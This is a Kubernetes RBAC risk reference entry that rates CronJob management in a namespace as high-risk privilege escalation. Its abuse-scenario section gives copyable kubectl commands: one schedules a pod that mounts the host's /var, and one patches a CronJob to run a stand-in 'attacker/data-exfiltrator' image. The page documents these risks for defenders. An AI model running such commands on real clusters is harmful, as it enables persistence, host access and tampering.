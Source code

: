 ```yaml
---
id: 1040
title: "Manage CronJobs in a namespace (scheduled privileged execution, persistence)"
description: "Grants permission to create, update, or delete CronJobs within a specific namespace. This can be used to schedule the execution of potentially privileged pods, enabling privilege escalation, persistence, and tampering within that namespace."
category: Elevation of Privilege
risk_level: RiskLevelHigh
date: ""
---
```


## Overview

| Field         | Value                                                                                                                        |
| ------------- | ---------------------------------------------------------------------------------------------------------------------------- |
| ID            | 1040                                                                                                                         |
| Name          | Manage CronJobs in a namespace (scheduled privileged execution, persistence)                                                 |
| Risk Category | Elevation of Privilege                                                                                                       |
| Risk Level    | {{< risk High >}}                                                                                                            |
| Role Type     | Role                                                                                                                         |
| API Groups    | batch                                                                                                                        |
| Resources     | cronjobs                                                                                                                     |
| Verbs         | create, update, patch, delete                                                                                                |
| Tags          | {{< tag "Persistence" >}} {{< tag "PotentialPrivilegeEscalation" >}} {{< tag "Tampering" >}} {{< tag "WorkloadLifecycle" >}} |

## Description

Grants permission to create, update, or delete CronJobs within a specific namespace. This can be used to schedule the execution of potentially privileged pods, enabling privilege escalation, persistence, and tampering within that namespace.

## Abuse Scenarios

1. Create a new CronJob with a hostPath mount in the namespace.

```bash {copy=true}
kubectl create -n <namespace> -f - <<EOF
apiVersion: batch/v1
kind: CronJob
metadata:
  name: hostpath-cronjob
spec:
  schedule: "*/5 * * * *" # Every 5 minutes
  jobTemplate:
    spec:
      template:
        spec:
          containers:
          - name: hostpath-container
            image: busybox
            command: ["/bin/sh", "-c", "echo 'Hello from cronjob' >> /host-var/log/cron.log"]
            volumeMounts:
            - mountPath: /host-var
              name: host-var
          volumes:
          - name: host-var
            hostPath:
              path: /var
          restartPolicy: OnFailure
EOF
# Example: kubectl create -n default -f - <<EOF ... EOF

```

2. Update an existing CronJob's image to a malicious one.

```bash {copy=true}
kubectl patch cronjob <cronjob-name> -n <namespace> --type='json' -p='[{"op": "replace", "path": "/spec/jobTemplate/spec/template/spec/containers/0/image", "value": "attacker/malicious-job"}]'
# Example: kubectl patch cronjob data-sync -n production --type='json' -p='[{"op": "replace", "path": "/spec/jobTemplate/spec/template/spec/containers/0/image", "value": "attacker/data-exfiltrator"}]'

```
